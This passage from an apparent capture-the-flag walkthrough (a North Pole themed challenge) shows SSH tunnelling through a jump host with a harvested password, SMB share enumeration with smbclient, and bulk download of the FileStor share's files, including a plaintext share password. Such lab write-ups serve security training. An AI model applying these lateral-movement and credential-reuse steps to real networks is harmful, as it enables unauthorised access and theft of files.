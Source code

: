 #### SMB server

Our next target is the SMB server. According to the NMAP scan its address is 10.142.0.7. Let's map the SMB port using SSH tunneling technique and the Alabaster Snowball's password that we now know:

```
$ ssh -L :445:10.142.0.7:445 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s.northpolechristmastown.com's password: 
```

We can use ```smbclient``` utility to query the SMB server:

```
$ smbclient -L localhost -U alabaster_snowball
WARNING: The "syslog" option is deprecated

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	FileStor        Disk      
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to localhost failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
```

The file share that we are looking for is FileStor (others are standard shares). Let's download the files from it:

```
$ smbclient -U alabaster_snowball '\\localhost\FileStor' stream_unhappy_buy_loss
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Dec  6 16:51:46 2017
  ..                                  D        0  Wed Dec  6 16:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 16:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Mon Dec  4 14:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Mon Nov 27 14:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 16:47:28 2017
  Naughty and Nice List.csv           A    10245  Thu Nov 30 14:42:00 2017
  Naughty and Nice List.docx          A    60344  Wed Dec  6 16:51:25 2017

		13106687 blocks of size 4096. 9626135 blocks available
smb: \> mget *
Get file BOLO - Munchkin Mole Report.docx? y
getting file \BOLO - Munchkin Mole Report.docx of size 255520 as BOLO - Munchkin Mole Report.docx (251.8 KiloBytes/sec) (average 251.8 KiloBytes/sec)
Get file GreatBookPage3.pdf? y
getting file \GreatBookPage3.pdf of size 1275756 as GreatBookPage3.pdf (1134.7 KiloBytes/sec) (average 715.8 KiloBytes/sec)
Get file MEMO - Calculator Access for Wunorse.docx? y
getting file \MEMO - Calculator Access for Wunorse.docx of size 111852 as MEMO - Calculator Access for Wunorse.docx (187.0 KiloBytes/sec) (average 600.3 KiloBytes/sec)
Get file MEMO - Password Policy Reminder.docx? y
getting file \MEMO - Password Policy Reminder.docx of size 133295 as MEMO - Password Policy Reminder.docx (232.0 KiloBytes/sec) (average 536.4 KiloBytes/sec)
Get file Naughty and Nice List.csv? y
getting file \Naughty and Nice List.csv of size 10245 as Naughty and Nice List.csv (23.1 KiloBytes/sec) (average 475.7 KiloBytes/sec)
Get file Naughty and Nice List.docx? y
getting file \Naughty and Nice List.docx of size 60344 as Naughty and Nice List.docx (112.9 KiloBytes/sec) (average 430.5 KiloBytes/sec)
smb: \> exit
```
